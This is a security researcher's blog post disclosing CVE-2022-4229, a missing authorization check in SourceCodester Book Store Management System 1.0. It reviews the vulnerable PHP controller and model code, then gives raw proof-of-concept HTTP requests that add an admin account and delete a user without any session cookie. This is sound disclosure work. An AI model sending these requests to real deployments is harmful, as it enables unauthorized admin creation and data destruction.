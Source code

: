 ```yaml
---
template: overrides/blog.html
title: CVE-2022-4229
description: >
  A vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.
hide:
  - feedback
---
```


# SourceCodester Book Store Management System 1.0 /bsms_ci/index.php Access Control - CVE-2022-4229

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**msplme** · @Huy3nMy</span>
<span>
:octicons-calendar-24: November 30, 2022 ·
:octicons-clock-24: 5 min read ·
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/casicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introduction

In the realm of cybersecurity, discovering a vulnerability and obtaining a CVE (Common Vulnerabilities and Exposures) entry is a significant achievement. It marks a milestone in an individual's journey as a security researcher, demonstrating their expertise and contribution to the field. In this blog post, I am excited to share my personal journey of uncovering one of the initial CVEs identified by our team. We will delve into the details of CVE-2022-4229, a specific vulnerability impacting the SourceCodester Book Store Management System 1.0, and discuss the implications of its access control issue.

## Understanding CVE-2022-4229

[CVE-2022-4229](https://www.cve.org/CVERecord?id=CVE-2022-4229) is a vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.

**Affected product(s)/code base**: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

**Affected component(s):**

- /bsms_ci/index.php/category/\*
- /bsms_ci/index.php/book/\*
- /bsms_ci/index.php/transaction/\*
- /bsms_ci/index.php/history/\*
- /bsms_ci/index.php/user/\*

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the [downloaded source code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip) zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named ci_bsms_db.
6. Import the provided SQL file. The file is known as ci_bsms_db.sql located inside the database folder.
7. Browse the Book Store Management System in a browser. i.e. http://localhost/bsms_ci/

### Source Code Analyst

A PHP function called `add()` responsible for adding a user in the context of a Book Store Management System. Here's a breakdown of the code:

```php
/* Location: ./application/controllers/User.php */
public function add()
{
    if ($this->input->post('save')) {
		if ($this->user->save_user()) {
            $this->session->set_flashdata('message', 'Used Added Successfully');
            redirect('user','refresh');
        } else {
            $this->session->set_flashdata('message', 'Failed to Add');
            redirect('user','refresh');
        }
    }
}

```

When this function is called, it first checks if the 'save' parameter is present in the `POST` request. If it exists, it calls the `save_user()` function of the `$this->user` object.
If the `save_user()` function returns true, indicating that the user was successfully saved in the system, the code sets a flash message using `set_flashdata()` with the message "User Added Successfully". It then redirects the user to the 'user' page using the `redirect()` function.
On the other hand, if the `save_user()` function returns false, indicating a failure in saving the user, the code sets a flash message with the message "Failed to Add" and redirects the user to the 'user' page.

The `save_user()` function is called to save the user's information into the database. Here is the code for the function:

```php
/* Location: ./application/models/M_user.php */
public function save_user()
{
		$object=array(
				'user_code'=>$this->input->post('user_code'),
				'fullname'=>$this->input->post('fullname'),
				'username'=>$this->input->post('username'),
				'password'=>md5($this->input->post('password')),
				'level'=>$this->input->post('level')
			);
		return $this->db->insert('user', $object);
}
```

In this code, the function creates an array called `$object` that contains the user's information. It retrieves the data from the `POST` request parameters such as `user_code`, `fullname`, `username`, `password`, and `level`. The `md5()` function is used to hash the password before storing it in the database.
The function then calls the `insert()` method of the database object (`$this->db`) to insert the `$object` array into the user table.
The function returns the result of the `insert()` method, which indicates whether the user was successfully saved in the database or not.

&#10233; After analyzing the code, it appears that there is a missing check for user authorization or privileges in the `add()` function. This omission can potentially lead to a security vulnerability where unauthorized users can access and add users to the system.

### Exploitation Execution

#### Add new account without cookie

Request:

```http
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

![Add new account without cookie](CVE-2022-4229/add_user.png)

#### Delete account without cookie

```http
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

![Delete account without cookie](CVE-2022-4229/delete_user.png)
